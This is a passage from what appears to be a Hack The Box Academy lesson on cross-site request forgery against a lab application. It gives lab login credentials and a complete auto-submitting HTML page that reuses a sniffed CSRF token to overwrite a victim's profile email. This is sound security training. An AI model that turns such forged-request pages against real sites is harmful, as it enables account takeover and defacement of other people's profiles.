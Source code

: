 While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. You will notice that Ela Stienen's profile details will change to the ones we specified in the HTML page we are serving.

![image](https://academy.hackthebox.com/storage/modules/153/30.png)

Our assumption that there is no CSRF protection in the application was correct. We were able to change Ela Stienen's profile details via a cross-site request.



## Cross-Site Request Forgery (GET-based)

***

Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

Let us see an example.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon, then use the provided Pwnbox or a local VM with the supplied VPN key to be able to reach the target application and follow along. Then, configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

Now, browse Julie Rogers' profile and click _Save_. You should see the below. ![image](https://academy.hackthebox.com/storage/modules/153/32.png)

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it. Now click _Save_ again.

You should see the below.

![image](https://academy.hackthebox.com/storage/modules/153/31.png)

The CSRF token is included in the GET request.

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`

Code: html

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
